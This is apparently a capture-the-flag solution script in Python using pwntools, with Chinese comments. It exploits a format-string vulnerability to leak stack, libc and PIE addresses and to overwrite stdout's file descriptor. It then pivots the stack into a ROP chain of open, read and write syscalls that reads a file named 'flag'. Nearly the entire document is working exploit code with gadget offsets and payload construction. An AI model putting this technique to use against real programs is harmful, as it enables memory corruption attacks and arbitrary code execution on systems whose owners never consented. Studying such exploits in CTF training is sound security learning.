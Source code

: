 ```python
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)
## 接收栈地址
p.recvuntil("Gift: ")
stack=int(p.recvline(),16)
lg('stack',stack)
p.recvline()

# 通过调用一个函数抬一次栈,再调用一个start函数,栈上就会剩下_IO_2_1_stdou_指针
p.sendline("%"+str(stack%0x100-0x20)+"c%6$hhn")# rsp
p.sendline("%"+str(0xA90)+"c%10$hn")# rsp->__libc_start_main

stack=stack-0x110
lg('stack',stack)

# 找一个不影响程序流的地方改stdout_fileno
p.sendline("%"+str((stack+0xa0)%0x100)+"c%14$hhn")# stdout
p.sendline("%"+str(0x90)+"c%40$hhn")# stdout_fileno
p.sendline("%"+str(0x2)+"c%29$hhn")
p.recv()

# 泄露libc和bss地址
p.sendline("%13$p;%9$p;")
libc_base = int(p.recvuntil(';',drop=True),16)-libc.sym["__libc_start_main"]-240
pie = int(p.recvuntil(';',drop=True),16) # bss+48 buf
lg('pie',pie)
pop_rax=libc_base+0x3a738
pop_rdi=libc_base+0x21112
pop_rsi=libc_base+0x202f8
pop_rdx=libc_base+0x1b92
syscall=libc_base+0xbc3f5
puts = libc_base + libc.sym['puts']

payload=''
payload+=p64(pop_rax)+p64(2)+p64(pop_rdi)+p64(pie+0xb0+0x20)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(syscall)
payload+=p64(pop_rax)+p64(0)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(libc_base+libc.sym['environ'])+p64(pop_rdx)+p64(0x30)+p64(syscall)
payload+=p64(pop_rax)+p64(1)+p64(pop_rdi)+p64(libc_base+libc.sym['environ'])+p64(puts)
payload+='flag'

# set jmp2payload 修改程序流控制rsp及其下方
'''
0x0000000000000edd: pop rsp; pop r13; pop r14; pop r15; ret;
'''
p.sendline("%"+str((stack-0x8)%0x100)+"c%6$hhn")# 链入
p.recv()
p.sendline("%"+str(0xedd)+"c%10$hn")
p.recv()
p.sendline("%"+str((stack-0x10)%0x100)+"c%6$hhn")# 链入
p.recv()
p.sendline(("%"+str(0x3f)+"c%10$hhn").ljust(0x18,'\x00')+payload)# retn

p.interactive()
```
